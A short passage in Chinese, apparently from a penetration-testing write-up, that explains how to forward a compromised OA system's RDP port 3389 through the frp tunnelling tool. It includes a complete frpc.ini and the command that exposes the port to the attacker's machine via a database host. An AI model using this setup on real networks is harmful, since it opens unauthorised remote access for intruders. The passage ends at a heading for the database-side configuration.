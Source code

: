 如下图，将oa系统的3389端口转发出来，直接通过黑客的机器连接3389端口。

<img src="pictures/frp1.png" alt="frp" style="zoom: 33%;" /> 



### oa系统配置

oa系统配置frp客户端，将oa系统自己的3389端口映射到数据系统的4445端口

frpc.ini:

```
[common]
server_addr = 10.37.133.3 #数据库-ip
server_port = 7000
token = shadowtest
	
[rdp]
type = tcp
remote_port = 4445
local_port = 3389
use_encryption = true
```

执行

```
.\frp.exe -c .\frpc.ini
```



### 数据库系统

